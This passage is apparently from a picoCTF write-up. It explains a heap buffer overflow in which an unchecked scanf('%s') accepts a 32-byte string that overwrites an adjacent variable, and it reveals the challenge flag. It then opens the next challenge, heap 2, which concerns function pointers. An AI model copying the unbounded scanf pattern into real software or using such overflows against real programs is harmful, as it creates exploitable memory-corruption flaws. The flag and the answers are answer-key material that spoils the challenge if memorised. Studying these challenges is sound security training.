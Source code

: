 Since we know that the memory space is only 32B in size, we can try to abuse this fact. If we look at the provided source code:

```c
...
void write_buffer() {
    printf("Data for buffer: ");
    fflush(stdout);
    scanf("%s", input_data);
}
...
```

We can see that `scanf()` is used to write our input string into the buffer. Evidently, as there is a lack of input size validation, this function could cause a potential buffer overflow.

Therefore, we can try to send a payload of exactly 32B in size, to cause a buffer overflow.

```text
Enter your choice: 2
Data for buffer: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

```text
Enter your choice: 1
Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data   
+-------------+----------------+
[*]   0x57bd600322b0  ->   AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
+-------------+----------------+
[*]   0x57bd600322d0  ->   
+-------------+----------------+
```

Indeed, we observe that this "safe variable" has been overwritten. Presumably, we have achieved the win condition for this challenge.

If we press 4 to print the flag, we will get the flag value.

```text
YOU WIN
picoCTF{my_first_heap_overflow_1ad0e1a6}
```

## heap 2 (200 points)

> Can you handle function pointers?
>
> Author: Abrxs, pr1or1tyQ

Similarly, let's execute the binary.

We'll notice that the setup for this challenge is pretty similar to heap 0. If we enter `4` to print the flag, immediately, we get a segmentation fault.

```text
1. Print Heap
2. Write to buffer
3. Print x
4. Print Flag
5. Exit

Enter your choice: 4
Segmentation fault (core dumped)
```
